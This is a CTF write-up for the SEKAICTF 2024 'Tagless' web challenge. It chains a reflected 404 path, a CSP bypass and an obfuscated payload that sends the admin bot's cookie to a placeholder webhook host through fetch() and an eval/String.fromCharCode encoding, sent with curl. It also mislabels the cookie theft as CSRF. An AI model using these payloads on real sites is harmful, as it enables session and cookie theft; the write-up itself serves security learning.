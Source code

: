 ```yaml
---
title: SEKAICTF 2024 Web Tagless

categories: [XSS, Web Pentest, CTF, Web, CSRF]

tags: [XSS, CSRF, Web, Pentest, Cookie, CTF]

image: /assets/img/uploads/sekai.png

---
```

# The Story
Another week , another ctf , this time i was abit occupied with some issues , only managed to join after the CTF ended.
# TLDR 
404 -> XSS -> Bypass CSP -> CSRF

## index.html
```html
<script src="/static/app.js">
```
mainpage of the website , nothing special other than this line at the bottom

## app.js
```js
function sanitizeInput(str) {
    str = str.replace(/<.*>/igm, '').replace(/<\.*>/igm, '').replace(/<.*>.*<\/.*>/igm, ''); 
    return str;
}
```
looks like XSS payload is sanitized 

## app.py

```js
@app.after_request
def add_security_headers(resp):
    resp.headers['Content-Security-Policy'] = "script-src 'self'; style-src 'self' https://fonts.googleapis.com https://unpkg.com 'unsafe-inline'; font-src https://fonts.gstatic.com;"
    return resp
```
looks like CSP is enforced in the header

```js
@app.route("/report", methods=["POST"])
def report():
    bot = Bot()
    url = request.form.get('url')
    if url:
        try:
            parsed_url = urlparse(url)
        except Exception:
            return {"error": "Invalid URL."}, 400
        if parsed_url.scheme not in ["http", "https"]:
            return {"error": "Invalid scheme."}, 400
        if parsed_url.hostname not in ["127.0.0.1", "localhost"]:
            return {"error": "Invalid host."}, 401
        
        bot.visit(url)
```
By accessing `/report` , using the parameter `url` and sending a `POST` request , the bot will be called to visit the `url`

```python
@app.errorhandler(404)
def page_not_found(error):
    path = request.path
    return f"{path} not found"
```
looking at `app.py` and notice that error handling page does not have validation for the `invalid path` 

Example : 
```bash
curl https://tagless.chals.sekai.team/notexist
/notexist not found 
```

## bot.js
```js
   def visit(self, url):
        self.driver.get("http://127.0.0.1:5000/")
        
        self.driver.add_cookie({
            "name": "flag", 
            "value": "SEKAI{dummy}", 
            "httponly": False  
        }) 
```
Here is where the flag is stored , inside a cookie and `httponly` is `False` which suggests that we can do `CSRF` since `httponly` normally set to `true` to prevent execuring js against the cookie

## What we have so far
- Injection point at -> 404
- post request contain manipulatable `url` that the bot will visit
## Issue
- CSP blocked js access

## CSP Bypass
```python
script-src 'self'; style-src 'self' https://fonts.googleapis.com https://unpkg.com 'unsafe-inline'; font-src https://fonts.gstatic.com;
```
**script-src :** limit js only can access from root domain directory  

**style-src :** this limit css only can load from google css

**unsafe-inline:** This allows the use of inline resources, such as inline `<script>` elements, javascript: URLs, inline event handlers, and inline `<style>` elements. 

**font-src :** font only can load from google

Reference : [github](https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques)

Example : 
```js
<script src=/script.js>
```

Online tool to check CSP
```
1. https://csp-evaluator.withgoogle.com/
2. https://cspvalidator.org/
```

![image](https://github.com/user-attachments/assets/c20185ec-1ea1-4404-9999-207bc54879b4)



## Crafted Payload Attempt 1

```js
<script src="/alert(document.domain)"></script>
```
technically this one should work since `/` is within domain directory

![[Pasted image 20240827035604.png]]
but we get this `Uncaught SyntaxError: unterminated regular expression literal` message

## Another Issue
```python
return f"{path} not found"
```
404 handler will return our input in `path` like this :

```js
/alert(1) not found
```
The `/` and `not found` makes our js invalid

## Crafted Payload Attempt 2
```js
<script src="/**/alert(document.domain)//"></script>
```
- Adding `/**/` in the front will comment out the `/`  
- Adding `//` at the end will comment the rest of the code effectively neglecting `not found`

Heres how the rendered payload will look like
```
//**/alert(document.domain)// not found
```
and with this we have a self reflected XSS

## CSRF Payload 
```js
<script src="/**/fetch(`https://webhook-link/?c=${document.cookie}`)//"></script>
```

## Final payload to send to admin

Before Encoding
```html
http://127.0.0.1:5000/<script src="/**/fetch(`https://webhook-link/?c=${document.cookie}`)//"></script>
```

Js compressor
https://jscompress.com/

Script to encode to ASCII
```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('<script src="/**/fetch(`https://webhook-link/?c=${document.cookie}`)//"></script>')
console.log(encoded)

// Note : this script intended to be run from browser console tool
```
paste the compressed code into the `encode_to_javascript('compressed-code-here')`

```html
http://127.0.0.1:5000/<script src="/**/eval(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,34,47,42,42,47,102,101,116,99,104,40,96,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,45,108,105,110,107,47,63,99,61,36,123,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,96,41,47,47,34,62,60,47,115,99,114,105,112,116,62))>
```
Send this to the admin bot page that ask for url

Sending it using `POST` 
```bash
curl -X POST https://tagless.chals.sekai.team/ -d 'http://127.0.0.1:5000/<script src="/**/eval(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,34,47,42,42,47,102,101,116,99,104,40,96,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,45,108,105,110,107,47,63,99,61,36,123,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,96,41,47,47,34,62,60,47,115,99,114,105,112,116,62))>'
```

Wait at webhook for a while and we get cookie flag response
```
SEKAI{w4rmUpwItHoUtTags}
```
